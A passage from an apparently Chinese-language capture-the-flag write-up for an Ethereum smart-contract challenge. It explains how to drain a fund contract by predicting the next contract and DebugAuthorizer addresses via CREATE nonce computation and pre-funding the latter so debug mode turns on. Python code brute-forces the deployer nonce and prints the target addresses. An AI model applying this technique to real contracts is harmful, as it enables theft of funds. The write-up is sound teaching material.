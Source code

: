         modifier isManager() {
            require(fundManagerEnabled[msg.sender] || debugAuthorizer.debugMode() || msg.sender == developer, "Unauthorized: Not a Fund Manager");
            _;
        }

        function () external payable ctf{
            // Anyone can add to the fund    
        }
        
        function addFundManager(address _newManager) external isManager ctf{
            fundManagerEnabled[_newManager] = true;
        }

        function removeFundManager(address _previousManager) external isManager ctf{
            fundManagerEnabled[_previousManager] = false;
        }

        function withdraw() external isManager ctf{
            msg.sender.transfer(address(this).balance);
        }
    }
    ```

转出所有钱的话要调用 withdraw 函数，它带有 isManager 这个 modifier，而 manager 我们改不了，所以思路在于开启 debug mode

但是题目的 constructor 中会创建 DebugAuthorizer 合约实例而且并不向其中转入 1.337 ether，也就不会打开 debug mode，后续再向其中转账的话也不会打开 debug mode（因为这个是在 constructor 中赋值的）

所以就需要提前计算出下一次 developer 部署的题目合约的地址，再提前计算出其创建的 DebugAuthorizer 的地址，先向其中转入 1.337 ether，这时重启题目会创建一个新的题目合约，其中创建 DebugAuthorizer 时检查 balance 发现已经有了 1.337 ether，也就打开了 debug mode 可以直接 withdraw

而提前计算合约地址的方法就是运用 create 的原理，即外部账户创建合约或者在合约中通过 CREATE 操作码创建新合约的时候计算地址的算法是：
```python
keccak(rlp.encode([deployer, nonce]))
```
并且在合约内部通过 CREATE 创建新合约的话，nonce 应该是 1

目前需要知道的是 developer（可以通过 etherscan 查到）部署当前题目合约时的 nonce 是多少（知道了这个之后下一次再部署的 nonce 就是其加一），只需要枚举一下 nonce 计算地址再和当前题目地址比较一下就可以爆破出来：
```python
import rlp
import web3

def calc_address(deployer, nonce):
    return web3.Web3.keccak(rlp.encode([deployer, nonce]))

for nonce in range(1, 1000000):
    if calc_address(0xeD0D5160c642492b3B482e006F67679F5b6223A2, nonce).hex().endswith("66318f6b06fd5769fa310732566b13d92cfbc589"):
        print(nonce)
        break
```
可以得到当前 nonce 是 484，所以下一次再部署题目的 nonce 就是 485。然后提前计算题目地址和 DebugAuthorizer 地址：
```python
deployer = 0xeD0D5160c642492b3B482e006F67679F5b6223A2
nonce = 485

challenge = int(calc_address(deployer, nonce).hex()[-40:], 16)
print(f"next challenge address: {hex(challenge)}")

debug = int(calc_address(challenge, 1).hex()[-40:], 16)
print(f"next DebugAuthorizer address: {hex(debug)}")
"""
next challenge address: 0xe3ddc258e3c557c11d8f54bb72583bd36d7af22d
next DebugAuthorizer address: 0xe177fc1703942b50cd95a87bb9dfa4ab3cf3a1fe
"""
```